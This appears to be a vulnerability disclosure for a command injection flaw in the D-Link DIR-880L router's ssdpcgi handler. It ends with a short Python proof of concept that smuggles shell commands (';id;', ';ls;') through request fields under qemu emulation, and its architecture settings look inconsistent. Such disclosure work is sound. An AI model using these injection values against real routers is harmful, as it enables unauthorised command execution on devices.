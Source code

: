 # Information



**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-880L

**Affected firmware version:** <=104WWb01

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=2811

# Overview

D-Link router DIR-880L 104WWb01 version has a serious command injection vulnerability. An attacker can set the request header through the path /htdocs/ssdpcgi and inject commands through the function sub_16570() to achieve remote command execution and even cause serious consequences. An attacker can use this vulnerability to execute arbitrary code by sending a specially constructed payload to port 49152.

# Vulnerability details

Attackers can control fields such as HTTP_ST, REMOTE_ADDR, REMOTE_PORT, SERVER_ID to implement command splicing

![image-20250411160232857](1/image-20250411160232857.png)

There is a command execution here

![image-20250411160351511](1/image-20250411160351511.png)

# POC

```py
from gt import *
con("mips")
post_content = "ddddd"
io = process(b"""
    qemu-arm -L ./ \
    -0 "ssdpcgi" \
    -E REQUEST_METHOD="POST" \
    -E SERVER_ID="cmd#cmdd" \
    -E CONTENT_TYPE="text/xml" \
    -E REQUEST_URI="aaa?service=" \
    -E REMOTE_ADDR=";id;" \
    -E CONTENT_LENGTH=5 \
    -E HTTP_ST="ssdp:all"  \
    -E REMOTE_PORT=";ls;"  \
    -g 1234 ./htdocs/cgibin
""", shell = True)
io.send(post_content)

io.interactive()
```

![image-20250411160410758](1/image-20250411160410758.png)